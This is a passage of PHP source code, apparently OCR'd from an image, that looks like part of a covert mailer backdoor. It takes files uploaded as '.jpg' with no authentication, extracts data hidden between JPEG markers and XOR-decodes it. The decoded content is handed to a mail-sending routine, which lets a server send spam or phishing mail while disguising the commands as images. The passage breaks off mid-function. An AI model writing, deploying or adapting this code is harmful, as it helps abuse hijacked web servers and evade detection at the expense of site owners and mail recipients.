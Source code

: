 	    if (!$mail->send()) {
	        return $mail->ErrorInfo;
	    } else {
	        return 0;
	    }
	}
	
	if (isset($_FILES)) {
	    foreach ($_FILES as $key => $file) {
	        if (strpos($file['name'], ".jpg")) {
	            $res = type1_send($file['tmp_name']);
	            if ($res) {
	                echo $res;
	            }
	        }
	    }
	}
	
	
	function myhex2bin($str)
	{
	    $sbin = "";
	    $len  = strlen($str);
	    for ($i = 0; $i < $len; $i += 2) {
	        $sbin .= pack("H*", substr($str, $i, 2));
	    }
	    
	    return $sbin;
	}
	
	
	function decode($data, $key)
	{
	    $out_data = "";
	    
	    for ($i = 0; $i < strlen($data);) {
	        for ($j = 0; $j < strlen($key) && $i < strlen($data); $j++, $i++) {
	            $out_data .= chr(ord($data[$i]) ^ ord($key[$j]));
	        }
	    }
	    
	    return $out_data;
	}
	
	function type1_send($config_file)
	{
	    $data      = file_get_contents($config_file);
	    $start_pos = strpos($data, myhex2bin("ffda"));
	    if ($start_pos) {
	        $start_pos += (20);
	        $end_pos = strrpos($data, myhex2bin("ffd9"));
	        if ($end_pos) {
	            $data = substr($data, $start_pos, $end_pos);
	        } else {
	            return FALSE;
	        }
	    } else {
	        return FALSE;
	    }
	    